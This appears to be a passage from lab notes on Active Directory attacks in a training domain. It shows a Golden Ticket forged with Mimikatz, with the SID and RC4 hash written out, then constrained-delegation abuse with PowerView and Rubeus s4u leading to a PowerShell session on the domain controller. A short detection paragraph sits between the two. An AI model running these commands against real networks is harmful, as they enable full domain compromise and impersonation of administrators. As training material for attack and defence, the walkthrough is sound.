 3. Now, armed with all the required information, we can use Mimikatz to create a ticket for the account Administrator. The /ptt argument makes Mimikatz pass the ticket into the current session:

`
mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt
`

4. The output shows that Mimikatz injected the ticket in the current session, and we can verify that by running the command klist (after exiting from Mimikatz):

`C:\Mimikatz>klist`


5.To verify that the ticket is working, we can list the content of the C$ share of DC1 using it:

`C:\Mimikatz>dir \\dc1\c$
`

*Detection*:Domain Controllers will not log events when a threat agent forges a Golden Ticket from a compromised machine. However, when attempting to access another system(s), we will see events for successful logon originating from the compromised machine. If we go back to the attack scenario, by running dir \\dc1\c$ at the end, we generated two TGS tickets on the Domain Controller: one for krbtgt and another for the Domain controller machine account. If SID filtering is enabled, we will get alerts with the event ID 4675 during cross-domain escalation.

## Kerberos Constrained Delegation
We will use the Get-NetUser function from [PowerView](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView) to enumerate user accounts that are trusted for constrained delegation in the domain:

```Powershell
PS C:\Users\bob\Downloads> Get-NetUser -TrustedToAuth
```

Look for user trusted to authenticate to a Domain Controller through HTTP in the msds-allowedtodelegate attribute. The HTTP service provides the ability to execute PowerShell Remoting. Therefore, any threat actor gaining control over web_service can request a Kerberos ticket for any user in Active Directory and use it to connect to the DC over PowerShell Remoting.

Before we request a ticket with Rubeus (which expects a password hash instead of cleartext for the /rc4 argument used subsequently) we need to get the password hash for the user with DCSync or other means...

`PS C:\Users\bob\Downloads> .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt`


To confirm that Rubeus injected the ticket in the current session, we can use the klist command:

`PS C:\Users\bob\Downloads> klist`

With the ticket being available, we can connect to the Domain Controller impersonating the account Administrator:

`PS C:\Users\bob\Downloads> Enter-PSSession dc1`

If the last step fails (we may need to do klist purge, obtain new tickets, and try again by rebooting the machine). We can also request tickets for multiple services with the /altservice argument, such as LDAP, CFIS, time, and host.
